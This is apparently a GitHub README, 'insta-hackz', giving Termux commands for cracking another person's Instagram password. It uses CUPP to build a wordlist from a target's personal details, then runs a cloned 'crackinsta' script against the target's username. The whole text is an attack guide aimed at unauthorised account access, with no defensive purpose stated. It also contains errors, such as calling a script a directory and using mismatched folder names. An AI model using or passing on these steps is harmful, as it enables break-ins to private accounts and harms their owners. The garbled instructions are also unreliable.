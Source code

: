 # insta-hackz
ʜᴏᴡ ʜᴀᴄᴋ ɪɴsᴛᴀɢʀᴀᴍ ᴀᴄᴄᴏᴜᴛ ᴜsɪɴɢ ᴛᴇʀᴍᴜx ɪɴ ʏᴏᴜʀ ᴀɴᴅʀᴏɪᴅ ᴅᴇᴠɪᴄᴇ
install termux from play 
$  apt update and upgrade -y 
$  pkg install git -y 
$  pkg install python && python2 -y
$ pkg install python3

THEN INSTALL CUPP FILE TO GENERATE POWERFULL PASSWORDLIST.
TO INSTALL CUPP MAKE A DITECTORY CUPP BY USING THIS COMMAND

$  mkdir cupp

THEN type this command

$ ls

A NEW DIRECTORY WILL BE CREATED NAMED "Cupp" OPEN THE DIRECTORY BY THIS COMMAND

$ cd cupp
$ git clone https://github.com/Mebus/cupp.git
$ ls
$ cd cupp
$ ls

A DIRECTORY IS CREATED NAMED "CUPP.PY" . TO RUN CUPP TYPE THIS

$ python3 cupp.py
 
 A NEW INTERFACE WILL BE APPEAR. THEN TYPE THIS COMMAND.
 
 $ python3 cupp.py -i

 GIVE YOUR TARGET INFORMATION, THEN TYPE "Y" FOR ALL TO GENERATE PASSWORDLIST.
 
 THE PASSWORDLIST WILL BE CREATED.
 
 $ LS
 
 A DIRECTORY IS CREATED WITH YOUR (TARGET) NAME
 THEN CHANGE THE (target).txt  TO pass.txt
 
 $ mv (target).txt pass.txt
 
 OPEN A NEW SESSION.
 
 $ git clone https://github.com/JTECHCODE/crackinsta.git
 $ ls
 
 now instacrack folder appears 
 
 $ cd instacrack
 $ pip install requests
 $ pip install bs4
 
 OPEN THE PASS.TXT CONTENT.
 
 $ cat pass.txt
 $ python crack.py
 
  ENTRE YOUR TARGET USERNAME
 
  ENTRE DELAY SECOND 
  
  WAIT FOR THE PASSWORD TO CRACK.
